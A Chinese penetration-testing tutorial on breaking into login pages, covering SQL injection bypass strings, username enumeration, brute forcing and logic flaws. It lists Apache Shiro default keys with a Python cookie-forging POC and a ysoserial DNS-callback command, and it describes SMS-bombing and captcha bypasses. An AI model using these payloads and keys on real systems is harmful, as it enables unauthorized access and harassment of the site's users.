登陆页面渗透测试常见的几种思路与总结
前言
我们在进行渗透测试的时候，常常会遇到许多网站站点，而有的网站仅仅是基于一个登陆接口进行处理的。尤其是在内网环境的渗透测试中，客户常常丢给你一个登陆网站页面，没有测试账号，让你自己进行渗透测试，一开始经验不足的话，可能会无从下手。今天就来简单说一下如何在只有一个登陆页面的情况下，来进行渗透测试。
0x00
在条件允许的情况下，我们可以拿在渗透测试的开始之前拿出我们的扫描器来进行扫描，目前我们最常用的就是AWVS和Nessus，除此之外，我们还可以使用一些别的自动化测试工具，例如Nikto扫描器，Appscan，W3af，以及最近长亭科技的Xray扫描器，都可以试试。尤其是Xray扫描器，据说有许多小伙伴靠它挖到了许多漏洞。
以下是这些工具的一些使用方法，不进行赘述
Nikto https://zhuanlan.zhihu.com/p/70225775
Xray https://chaitin.github.io/xray/#/
W3af https://www.freebuf.com/column/145984.html
Appscan https://zhuanlan.zhihu.com/p/287293710x01--SQL注入
万能密码绕过
如果我们能够直接绕过登录，来直接访问系统内部资源，那自然是最好不过的了。万能密码就是其中一最好用的一种，虽然存在的可能性不大，但是偶尔也是存在的，稍微尝试一下也不会浪费太多时间。
例如'or 1=1 –
"or "a"="a
万能密码在网上非常多，随便搜一下就有
例如这样，就能直接访问后台


登录口SQL注入
有的系统在登录口就存在SQL注入，目前我遇到过比较多的是Oracle以及MySQL的登录口注入，我们可以在登录处先抓一个包，然后根据抓包信息来构造Payload。值得一提的是，有时候我们需要在Burp里修改一下发包格式（change body encoding），才能成功注入。
在这给个例子：
正常登录报错
加一个引号

修改payload,以此返回数据包不同来判断存在SQL注入。

并且，这类的SQL注入并不罕见，在许多网站中都可以进行尝试，很有可能会存在此漏洞
0x02 明文传输/用户名可枚举/爆破弱口令
明文传输
可能是我们做渗透测试中，最常见的一种漏洞，实际上它并不能算得上是一种漏洞，仅仅只能说是一种不足之处而已，明文传输在网站上随处可见，除了银行网站，很有可能每一个密码都是经过特殊加密然后再进行传输的。
用户名可枚举
此漏洞存在主要是因为页面对所输入的账号密码进行的判断所回显的数据不一样，我们可以通过这点来进行用户名的枚举，然后通过枚举后的账户名来进行弱口令的爆破。防御手段的话仅需要将用户名与密码出错的回显变成一样即可，例如用户名或密码出错。

爆破弱口令
弱口令可以说是渗透测试中，最最常见，也是危害“最大”的一种漏洞，因为毫无技术性，毫无新意，但是却充满了“破坏性”，尤其是在内网环境中，弱口令更是无处不在。Web页面最常用的爆破工具为Burp，我们通常使用Nmap扫描也可能扫出其他端口存在，例如3389，SSH等。
弱口令爆破工具推荐,详情可看以下，不在赘述：
Hydra：https://yq.aliyun.com/articles/608406/
超级弱口令：链接：https://pan.baidu.com/s/1mkwnxu19Aq-KEVCWOZn99w 提取码：blj3
复制这段内容后打开百度网盘手机App，操作更方便哦
御剑RDP爆破: https://github.com/foryujian/yujianrdpcrack
Bruter: https://www.uedbox.com/post/8478/
此外，我们还可以根据网站域名，以及收集的一些信息来进行定制化爆破，例如我在一次内网渗透测试中，发现了管理员的名字缩写为crj，然后我就生成了一堆密码，最后成功登陆账号密码为crj112233。
定制化生成字典：http://tools.mayter.cn/
字典：https://github.com/rootphantomer/Blasting_dictionary
还有很多字典，可以在网上多收集一些，有时候你离Getshell，仅仅只差一个弱口令。
此外，有时候我们还可能遇到存在默认密码的系统，在这给出一些网上公开的默认账户密码





0x03 扫描
目录扫描
在我看来，这是最好用的目录扫描工具:https://github.com/maurosoria/dirsearch ,DirSearch已经成为了我日常渗透工作中密不可分的工具之一，并且我们可以多级别扫描，在枚举子目录的目录，很多时候可以找到突破口

除此之外，还有御剑：https://github.com/52stu/- 也是比较常用的

JS扫描
JS文件我们在渗透测试中也是经常用到的东西，有时候我们可以在JS文件中找到我们平时看不到的东西，例如重置密码的JS，发送短信的JS，都是有可能未授权可访问的。JS扫描的话推荐使用JSFind: https://github.com/Threezh1/JSFinder
同时它也会提取页面中的URL，简单举例

nmap扫描
Nmap的强大功能能让我们第一时间获取网站的端口信息，而这些端口信息中常常可以给予我们非常大的帮助，例如开放了3389端口，或者一些敏感端口的探测，Nmap的使用方法相比不需要我再多说，每个安全工程师都必须要精通的一种工具，以下是我的一些端口小总结，希望可以给与大家一点儿帮助。


在扫描目录与JS这块，要注意多次爆破，遍历访问多级域名的目录与JS。
我就曾在一个学校网站中，使用Nmap对批量网段的探测，获得了一个登陆网站，并且在网站中遍历目录，获得了一个test页面，最后在这个页面的JS文件中，获取到了一个接口，通过这个接口重置了主登录页面的密码。
0x04 框架漏洞
寻找CMS，或者网页框架，以及某些厂商的服务存在漏洞
例如Apache中间件组件Shiro反序列化漏洞，这里简单说一下：
需要一个ysoserial.jar https://github.com/frohoff/ysoserial
以及默认秘钥
4AvVhmFLUs0KTA3Kprsdag==
2AvVhdsgUs0FSA3SDFAdag==
2AvVhdDFCVdfdfDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
kPH+bIxk5D2deZiIxcaaaA
wGiHplamyXlVB11UXWol8g==
6ZmI6I2j5Y+R5aSn5ZOlAA==
AsfawfsdfaAasdWWW==
Z3VucwAAAAAAAAAAAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
1QWLxg+NYmxraMoxAXu/Iw==
POC
from Crypto.Cipher import AES
from Crypto import Random
from base64 import b64encode
from base64 import b64decode
BS = AES.block_size
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def encrypt(key, text):
IV = Random.new().read(AES.block_size)
cipher = AES.new(key, AES.MODE_CBC, IV=IV)
data = b64encode(IV + cipher.encrypt(pad(text)))
return data
key= b64decode('2AvVhdsgUs0FSA3SDFAdag==')
print encrypt(key, open('payload.dat','rb').read())使用方法
1：java -jar ysoserial.jar URLDNS "你的ceye.io或者burp的collaborator client功能中">payload.dat
2：运行python脚本，生成cookie

3：将cookie复制到burp发包,此时DNSlog就会记录，我们可以再次构造进行命令执行，在这不进行深入。

致远A8-getshell：https://www.cnblogs.com/dgjnszf/p/11104594.html
Thinkphp：https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection
Struts2: https://github.com/HatBoy/Struts2-Scan
weblogic: https://github.com/rabbitmask/WeblogicScan
以及各大Java反序列化漏洞等等，这里的漏洞都说不完了。
0x05
寻找逻辑漏洞，例如忘记密码，任意用户注册
任意重置密码
例如

此时客户端会发一个验证码包，我们这是随意输入验证码，发包，返回包。
返回包错误的回显为{"status":0}
将返回包的东西换成{"status":1}
即可重置密码

乌云示例：http://www.anquan.us/static/bugs/wooyun-2013-039809.html
任意用户注册
爆破注册页面的验证码，即可任意用户注册

同样，这里的验证码如果为四位数的话，有时候也可能存在可爆破，可进行任意用户重置密码
短信轰炸
短信轰炸很常见，一般在发送验证码后抓包，不断repeate即可，如果做了一定防护的话，在添加空格，或者特殊符号，或+86等都可以进行绕过
未经过防护的短信爆破十分常见


不完全的登录
这个漏洞我找到过一次，就是在登录页面，随意输入任意的账户和密码，然后抓包，修改返回包，骗过前端，从而获得一定的权限，其功能不完善，但是依旧可以看到许多敏感数据。
逻辑漏洞这里要根据不同网站来进行测试，逻辑漏洞的方式多种多样，常常会遇到许多奇怪的姿势，例如cookie某字段为Guest，修改为admin即可更换用户身份的，还需要在日常工作中多加总结。
0x06
禁用JS插件，查看页面源代码12
禁用JS和查看源代码，有时候会有意想不到的惊喜。

例如某些重定向，某些权限缺失，在我们未授权进入后台一瞬间，就会重定向回去登录页面，而如果此时我们禁用了JS，则可以进行一定权限的控制。
查看源代码则不用多说，有的不大聪明的程序员可能会在源代码里泄露一些不可告人的秘密，例如测试账号，还有我们可能会找到一些网站的后台结构，以及JS接口。
0x07
URL重定向
URL重定向是我们渗透测试中非常常见的一个漏洞，一般出现在以下参数里，而登录时常常也有这个URL重定向到后台网站，我们修改这个后台网站的URL即可跳转到任意页面，可用于钓鱼页面的制作
例如 http://www.aaa.com?url=aHR0cDovL2FkbWluLmFhYS5jb20=
url后面常会进行base64编码处理
常见URL跳转参数：
redirect
redirect_to
redirect_url
url
jump
jump_to
target
to
link
linkto
Domain
0x08
各种未授权访问，免登录进入后台
未授权访问在这里有更强的大佬总结了，其需要我们对端口进行注意观察。
https://xz.aliyun.com/t/6103
0x9 验证码问题
验证码可修改接受者
可将A账号的修改密码验证码接受者修改为B，这样A账号的验证码就会发到B的手机上，从而B可以重置A的账号密码
例如A账号moblephone=13333888888 ，这点是可控的，我们修改为moblephone=18888888888,即可收到A账号的重置验证码

登录验证码可绕过
可能存在万能验证码0000或者9999，不过此类情况较为罕见。更多的情况为修改返回包，可能会出现可绕过逻辑判断。
验证码可爆破
验证码失效的时间过长，并且为纯数字或者过短字符，导致可被爆破。
验证码回显前端
有的网站验证码会回显到前端，只需要抓包即可获得验证码

验证码不刷新
验证码不会自动刷新，导致我们可一码多次使用，我们只需要输入一次验证码就可以让我们能够开始进行暴力破解。
验证码识别
这里使用PKAV的验证码自动识别
链接：https://pan.baidu.com/s/1-l16Nxse7SqQdgSiPZS2-A 提取码：szo2
0x10 总结
简单的来说，遇到一个登陆站点，我们需要做的时候有
1、条件允许的情况下开启漏洞扫描
2、敏感信息的探测，例如端口，目录，JS文件
3、爆破弱口令
4、抓包看看是否存在逻辑漏洞，或者SQL注入进行尝试
5、寻找框架漏洞
PS:如果遇到某些大网站的主站登录，例如银行，建议放弃，寻找其他业务，例如招聘站点登录等。

推荐阅读：
来源：先知社区
作者：lcepaper
如有侵权，请联系删除